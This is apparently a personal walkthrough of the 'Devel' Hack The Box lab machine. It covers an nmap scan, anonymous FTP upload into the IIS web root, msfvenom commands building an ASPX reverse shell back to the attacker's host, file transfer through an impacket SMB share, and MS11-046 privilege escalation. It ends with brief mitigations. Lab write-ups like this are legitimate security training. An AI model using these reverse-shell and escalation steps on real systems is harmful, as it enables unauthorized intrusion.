

# DEVEL

lets run an nmap scan

```text
# Nmap 7.91 scan initiated Mon Aug  2 13:45:06 2021 as: nmap -vvv -p 21,80 -sV -sC -oN devel 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up, received syn-ack (0.099s latency).
Scanned at 2021-08-02 13:45:06 IST for 13s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug  2 13:45:19 2021 -- 1 IP address (1 host up) scanned in 13.05 seconds
```

So we have FTP and HTTP, lets explore FTP first, looking at the welcome.png and iisstart.htm, looks like, this is where the web server is getting its content from, So, first thing I did is try to upload something onto the FTP server, which seem to have worked. So I've copied the image file and renamed it and uploaded it again on to the FTP and am able to access it from the HTTP server \(this is how I was able to confirm\)

```text
msfvenom -a x86 --payload windows/shell_reverse_tcp -f asp LHOST=10.10.14.25 LPORT=4242 -o pl.asp
```

i've tried above stuff to generate asp payload and upload it into the FTP server, but that didn't seem to have worked. So I started looking for 'IIS htm reverse shell' on Google. Meanwhile I tried fuzzing the HTTP server with asp, htm, txt extensions, only thing I've got is /aspnet\_client, we got until here, but all of them are forbidden

```text
http://10.10.10.5/aspnet_client/system_web
```

so, only thing seems like is we have to put something in the FTP and get it to run, so lets focus on that now, so I've got some link [https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/), which we can try now, we have a config file now which I'm going to try

Seems, its only showing htm file, on other extensions it just shows file not found, and now we have look if anything like this with .htm files. So I've kinda figured we can do this with .aspx files as our msfvenom payload, so lets try that now,

```text
msfvenom -a x86 --payload windows/shell_reverse_tcp -f aspx LHOST=10.10.14.25 LPORT=4242 -o pl.aspx
```

and upload this file through FTP and start a listener.


so, we got a revershell as the iis user, and not sure how I should proceed from now, So, I'll just try to upload a winpeas.exe file and run the local PrivEsc enumeration

I usually use the smbserver.py impacket thing to share the local kali drive. So, lets do that

```text
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

net use x: \\10.10.14.25\kalishare /user:guest guest
cmd /c "copy <sourcefile> X:\"
```

so, this worked, but when I try to run the winpeas.exe command, it doesn't seem to work, which is when I've realized that I've been trying to run x64 winpeas on x86 machine. Even after changing, that didn't seem to have worked, So, I'm not sure what I can do at this stage


So, I've left to try the metasploit way now, where we can search for local exploits etc \(actually this I've got from ippsec video for this specific box\), so lets try that ourselves \(generating a meterpreter shell\)


```text
Navigating to c:\windows\TEMP is a good idea, as a large portion
of Metasploit’s Windows privilege escalation modules require a file to be written to the target
during exploitation

Running sysinfo in the Meterpreter session reveals that the target is x86 architecture, so it is
possible to get fairly reliable suggestions with the local_exploit_suggester module. The same can
not be said for running the module on x64
```

for some reason, our meterpreter exploit suggester doesn't work as expected, so I've used the exploit directly, which worked, and we're able to get the flags



there is another way we can do this local privilege escalation, I've got the exe file from this repo [https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe](https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe), we can just run it on our target machine where we have IIS user to get NT Authority user

Mitigations:

Operating system should be patched to avoid this sort of Local privilege escalation exploits. And dont allow Anonymous access on FTP and also dont allow uploads on FTP if not needed

